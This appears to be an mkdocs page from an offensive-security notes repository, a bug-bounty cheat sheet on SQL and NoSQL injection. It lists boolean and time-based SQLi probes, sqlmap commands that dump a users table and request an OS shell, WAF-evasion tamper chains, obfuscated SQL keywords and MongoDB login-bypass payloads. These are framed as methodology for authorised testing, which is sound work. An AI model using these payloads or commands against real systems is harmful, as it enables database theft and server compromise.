

repository: 0x3xp10i73r/offsec-vault · page: web-bugbounty/injection-attacks/index.html · generator: mkdocs

---
title: "Injection Attacks: SQLi, SSTI, XXE & Command Injection"
description: "SQL & NoSQL injection, server-side template injection, XXE, and OS command injection methodology with WAF bypasses"
tags:
  - Bug Bounty
  - SQLi
  - SSTI
  - XXE
  - RCE
  - Critical
---

# Injection Attacks: SQLi, SSTI, XXE & RCE

!!! note "What this page is doing"
    First identify the interpreter and the input context; then use the smallest harmless probe that distinguishes data from code. A payload string alone is not impact—show the controlled read, callback or state change and explain the fix.

---

## 1. SQL Injection

=== " Detection & Manual Testing"

    ```text
    # Use one harmless boolean probe at a time and compare it with the baseline.
    ' OR 1=1-- -
    ' OR '1'='1
    " OR "1"="1
    ') OR ('1'='1

    # Time-based probes belong in an approved, rate-limited test window.
    # A delay is evidence only when it is repeatable against a control request.
    MySQL/MariaDB : ' AND IF(1=1,SLEEP(5),0)-- -
    MSSQL          : '; IF (1=1) WAITFOR DELAY '0:0:5'-- -
    PostgreSQL     : '; SELECT pg_sleep(5)-- -
    Oracle         : ' AND 1=DBMS_PIPE.RECEIVE_MESSAGE('a',5)-- -
    SQLite         : ' AND 1=randomblob(1000000000)-- -
    ```

=== " Automated Exploitation (sqlmap)"

    ```bash
    # Capture a request from Burp (right click -> Save item) and run sqlmap on it
    sqlmap -r request.txt -p id --batch --level=5 --risk=3 --random-agent --tamper=space2comment
    # Direct target, enumerate DBs, dump users table, get OS shell
    sqlmap -u "https://<DOMAIN>/api/v1/item?id=1" --cookie="session=<COOKIE>" -p id \
           --dbms=mysql --dbs --batch --technique=BEUST

    sqlmap -u "https://<DOMAIN>/item?id=1" -D app_db -T users --dump
    sqlmap -u "https://<DOMAIN>/item?id=1" --os-shell --batch
    # WAF evasion: use a chain of tampers + delay + proxy through Burp
    sqlmap -r request.txt --tamper=between,charencode,randomcase,space2comment,modsecurityversioned \
           --delay=1 --random-agent --proxy=http://127.0.0.1:8080
    ```

=== " Common WAF / Filter Bypasses"

    ```sql
    -- Keyword splitting & comments
    /*!50000 SELECT*/ * FROM users
    SE/**/LECT * FROM users
    UN/**/ION SEL/**/ECT

    -- Case randomization & inline whitespace
    sElEcT * FrOm users WhErE id=1
    SELECT%09*%09FROM%09users

    -- Encoding chains (URL double-encode, Unicode)
    %2527 OR %25271%2527=%25271
    ' OR 1=1/*!UNION/**/SELECT/**/1,2,3*/

    -- Bypassing quotes-blacklist with hex / CHAR()
    SELECT * FROM users WHERE name=0x61646d696e
    ```

!!! warning "NoSQL Injection (MongoDB & CouchDB)"
    Don't stop at SQL — modern Node/Mongo apps are full of NoSQLi:
    ```json
    {"email": {"$ne": null}, "password": {"$ne": null}}
    {"email": {"$gt": ""}, "password": {"$gt": ""}}
    {"email": {"$regex": "^admin"}, "password": {"$ne": "x"}}
    {"username": {"$in": ["admin","administrator"]}, "password": {"$ne": 1}}
    ```
    Also test `$where` JavaScript execution and `$lookup` cross-collection data leaks.

---
